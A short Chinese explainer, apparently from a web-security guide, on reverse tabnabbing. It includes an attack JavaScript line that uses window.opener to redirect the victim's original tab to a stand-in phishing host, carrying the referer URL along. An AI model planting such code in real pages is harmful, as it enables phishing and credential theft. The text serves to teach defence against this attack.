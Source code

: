
在你的网站 https://a.com 上存在一个链接：
 ```html
<a href="https://b.com" target="_blank">进入一个“邪恶”的网站</a>
```

用户点击了这个链接，在新的标签页打开了这个网站。  
这个网站可以通过 HTTP Header 中的 Referer 属性来判断用户的来源。  
并且，这个网站上包含着类似于这样的 JavaScript 代码：
```js
const url = encodeURIComponent('{{header.referer}}');
window.opener.location.replace('https://a.fake.site/?' + url);
```

此时，用户在继续浏览这个新的标签页，而原来的网站所在的标签页此时已经被导航到了 https://a.fake.site/?https%3A%2F%2Fexample.com%2F。  


恶意网站 https://a.fake.site 根据 Query String 来伪造一个足以欺骗用户的页面，并展示出来（期间还可以做一次跳转，使得浏览器的地址栏更具有迷惑性）。  


用户关闭 https://an.evil.site 的标签页，回到原来的网站………………已经回不去了
